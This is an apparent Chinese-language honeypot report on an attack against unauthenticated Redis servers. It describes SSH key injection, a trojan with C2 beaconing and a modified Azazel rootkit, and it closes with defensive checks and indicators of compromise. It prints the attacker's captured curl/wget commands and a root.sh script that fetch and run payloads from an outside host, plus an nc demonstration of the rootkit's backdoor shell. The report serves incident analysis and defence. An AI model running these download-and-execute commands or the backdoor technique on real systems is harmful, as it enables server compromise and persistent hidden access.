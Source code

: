 # Redis后门植入分析报告

**唐朝实验室蜜网项目组**

0x00 概述
=======

* * *

redis是一款基于内存与硬盘的高性能数据库，在国内外被大型互联网企业、机构等广泛采用。但其一些安全配置经验却不如“LAMP”等成熟，所以很多国内企业、机构的redis都存在简单的空口令、弱密码等安全风险。

11月10号，国外安全研究者的一份文档展示，redis在未进行有效验证，并且服务器对外开启了SSH服务的前提下，攻击者有可能恶意登录服务器甚至进行提权操作（root权限）

通过与一些企业机构的沟通，已经发现了大量扫描与自动化攻击痕迹。

唐朝实验室蜜网项目组于11月10号的晚上对蜜罐系统进行了更新，加入了redis服务，经过一个晚上的观测，我们捕获到了一次针对redis的扫描以及攻击，包括攻击者使用的远控。

我们的蜜罐纪录显示攻击者通过蜜罐中redis的漏洞进行攻击，进行远程控制程序的植入。

0x01 时间流
========

* * *

11月10号 晚上11点多我们的蜜罐系统检测一个美国ip到对redis服务的扫描

```
Nov 10 23:07:51 redis[23]: Accepted 104.219.234.226:20572
Nov 10 23:58:26 redis[23]: Accepted 104.219.234.226:4460
Nov 10 23:58:30 redis[23]: Accepted 104.219.234.226:4493
Nov 10 23:58:33 redis[23]: Accepted 104.219.234.226:4797
Nov 10 23:58:36 redis[23]: Accepted 104.219.234.226:5108
Nov 10 23:58:41 redis[23]: Accepted 104.219.234.226:5424

```

攻击者在登入redis后写入了public key

```
1.1.1.1:6379> get crackit
"\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCcuHEVMRqY/Co/RJ5o5RTZmpl6sZ7U6w39WAvM7Scl7nGvr5mS4MRRIDaoAZpw7sPjmBHz2HwvAPYGCekcIVk8Xzc3p31v79fWeLXXyxts0jFZ8YZhYMZiugOgCKvRIs63DFf1gFoM/OHUyDHosi8E6BOi7ANqupScN8cIxDGsXMFr4EbQn4DoFeRTKLg5fHL9qGamaXXZRECkWHmjFYUZGjgeAiSYdZR49X36jQ6nuFBM18cEZe5ZkxbbtubnbAOMrB52tQX4RrOqmuWVE/Z0uCOBlbbG+9sKyY9wyp/aHLnRiyC8GBvbrZqQmyn9Yu1zBp3tY8Tt6DWmo6BLZV4/ crack@redis.io\n\n\n\n”

```

之后查看了key

```
cat authorized_keys
REDIS0006�0xcafe0b3c6eu30x1447215705654crackitA�

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCcuHEVMRqY/Co/RJ5o5RTZmpl6sZ7U6w39WAvM7Scl7nGvr5mS4MRRIDaoAZpw7sPjmBHz2HwvAPYGCekcIVk8Xzc3p31v79fWeLXXyxts0jFZ8YZhYMZiugOgCKvRIs63DFf1gFoM/OHUyDHosi8E6BOi7ANqupScN8cIxDGsXMFr4EbQn4DoFeRTKLg5fHL9qGamaXXZRECkWHmjFYUZGjgeAiSYdZR49X36jQ6nuFBM18cEZe5ZkxbbtubnbAOMrB52tQX4RrOqmuWVE/Z0uCOBlbbG+9sKyY9wyp/aHLnRiyC8GBvbrZqQmyn9Yu1zBp3tY8Tt6DWmo6BLZV4/ crack@redis.io

```

于11点58分ip`104.219.234.226`登陆了系统并执行了以下命令

```
curl http://85.118.98.197:61050/cyka/blyat/x.x86 > /tmp/ok; wget http://85.118.98.197:61050/cyka/blyat/x.x86 -O /tmp/ok; chmod 777 /tmp/ok; /tmp/ok

```

该命令通过一个格鲁吉亚的ip`85.118.98.197`下载了样本x.x86 写入`/tmp/ok`并执行

样本x.x86细节见 0x02

于11号早上10点10分 攻击者通过远程控制程序在 http://85.118.98.197:61050/root.sh 下载了root.sh脚本并执行

```
#!/bin/sh

mkdir /tmp/ok/;
cd /tmp/ok/
curl http://85.118.98.197:61050/k.tgz > /tmp/ok/k.tgz
wget http://85.118.98.197:61050/k.tgz -O /tmp/ok/k.tgz

tar -xzvf k.tgz
bash vishnu.sh

curl http://85.118.98.197:61050/done.txt > /dev/null
wget http://85.118.98.197:61050/done.txt -O /dev/null

```

0x02 样本分析
=========

* * *

**x.x86样本分析**

样本大小仅有23k，未经加壳保护，功能多样，并没有很严格的自我保护，初步推断起用途只是初步筛选存在漏洞的主机，同时为下一步植入rootkit做准备。

样本首先遍历文件句柄，执行close操作，确保接下来可以成功删除自身。

![enter image description here](http://drops.javaweb.org/uploads/images/6fd27964277c9681d24f9ca2bec2b32c470a52ca.jpg)

紧接着进行两次fork，避免出现意外而成为僵尸进程。 完成fork后紧接着调用unlink删除自身。

![enter image description here](http://drops.javaweb.org/uploads/images/fa0c5ba8f3ebfa1134e041334b00b28de336725d.jpg)

执行完以上的初始化任务后，样本会尝试连接`8.8.8.8`的53端口验证网络是否通畅。如果可以连接，紧接着会与`37.220.109.6`的53端口建立tcp连接，开始与c2服务器互发心跳包，等待服务器指令。

其中c2服务器IP为硬编码：

![enter image description here](http://drops.javaweb.org/uploads/images/e16e520e0c79431a6982b0ed943147a797addde6.jpg)

下图为心跳连接：

![enter image description here](http://drops.javaweb.org/uploads/images/c1e0ce8588e1217519ed0ce5a3246cd168dc52cd.jpg)

服务器会不定时主动下发指令，样本会依据收到的指令执行具体动作。

下图为其中一个服务器指令的数据包：

![enter image description here](http://drops.javaweb.org/uploads/images/e7b396f970f95bd0febc8fc60cb0f0d62c1b9721.jpg)

样本收到指令后的行为如下：

![enter image description here](http://drops.javaweb.org/uploads/images/8397721ce22b71232ebf9d97259e49c5c27e94f6.jpg)

解析指令：

![enter image description here](http://drops.javaweb.org/uploads/images/2ed78a627f94b5c40edf3183da6a5afe64d6dd99.jpg)

指令解析完成后会执行对应的函数，当任务完成后会返回至`loc_8049FB6`，等待开始新一轮指令到来。

![enter image description here](http://drops.javaweb.org/uploads/images/2a19d6df4be8d7e0b8f65864b4440f65983ed22a.jpg)

在本次利用过程中，此样本短小精悍，被用作"破门"工具。在利用redis漏洞进入主机后，留下一个仅23k的木马，反弹回主控服务器，服务器再统一下发指令，完成对目标的进一步入侵。

_k.tgz_

本次活动中，此样本下载了远端服务器的一套完整rootkit级后门源码，试图安装在主机中。

rootkit来源于github开源项目`https://github.com/chokepoint/azazel`，经过修改加强后植入主机。

本次活动中的rootkit是用户态的rootkit，并没有生成内核模组。但由于hook了绝大多数系统调用，被种上后门之后极其难以发现和清除。

rootkit通过写入`/etc/ld.so.preload`文件获得优先加载权，覆盖其希望hook的系统调用，导致所有使用动态链接的程序中使用的关键系统调用均被替换，几乎无法对rootkit进行有效的检测和清除工作。其hook之全甚至包括了pcap，所以本机抓包也是发现不了rootkit的。 大量的hook：

![enter image description here](http://drops.javaweb.org/uploads/images/6f3edbb83edb345ae50789d7a12d8e3e6b54ed6f.jpg)

pcap的HOOK：

![enter image description here](http://drops.javaweb.org/uploads/images/388b7217eab7844f4171fb5565842d689771b3d7.jpg)

非常有趣的是，这个rootkit还使用了一种有趣的后门开shell的方案，在代码中可以直接通过hook系统的accept函数，当触发到预先定义好的条件时将会调用drop_shell函数来弹出一个shell。 而这个shell使用的端口恰恰在rootkit所隐藏的区间内。

![enter image description here](http://drops.javaweb.org/uploads/images/1444e2fab6b06cd37b201e8a5fab1ae81ef0e6fd.jpg)

随便在无加密shell端口区间内开一个端口（用nc模拟一下）

```
nc -l -p 61041

```

然后用61042去连接这个61041端口，输入预先设置的口令

```
alkaid@alkaid-VirtualBox:~/azazel/python-pty-shells$ nc 127.0.0.1 61041 -p 61042changeme
Welcome!
Here's a shell: root@alkaid-VirtualBox:/home/alkaid/azazel/python-pty-shells#

```

也就是说直接在任意端口上开了个后门，如果使用的端口号位于azazel 隐藏区间，还可以避免被发现。

当然也有加密方式的端口后门和区间，有兴趣可以去试一下azazel官方文档上socat的连接方式。

本次活动中截获的样本，本质上是使用azazel开源项目隐藏自己的后门。但不得不说的是，这个后门作者非常聪明地将自己的后门和azazel项目紧密结合起来，由一个巧妙但并不难发现的后门一跃而成为了rootkit级别的高危恶意软件。在这次活动中我们还发现了比较不同寻常的一点，以往的恶意软件部署绝大多数都是采用脚本或根据平台直接部署二进制文件，而自一次，攻击者却使用第一次打入的远程控制软件下载了rootkit的全套源码，在受害主机上完成整个编译安装的过程。同时攻击者似乎对肉鸡有些洁癖，在源码中我们发现一个名为“kill-other”的脚本 ，其作用是清除其他入侵者留下的木马，确保肉鸡的唯一控制权。

0x03 redis自查建议
==============

* * *

请企业近期额外注意redis服务器的异常。自查方法：查看redis服务的认证机制，是否无认证或弱口令；同时检查redis服务roor的.ssh目录下是否出现非法的KEY

0x04 附录
=======

* * *

**样本md5**

x.x86 9101e2250acfa8a53066c5fcb06f9848

k.tgz bd3ac812281c0d9a378383dd934a6013

**ip**

104.219.234.226

85.118.98.197

37.220.109.6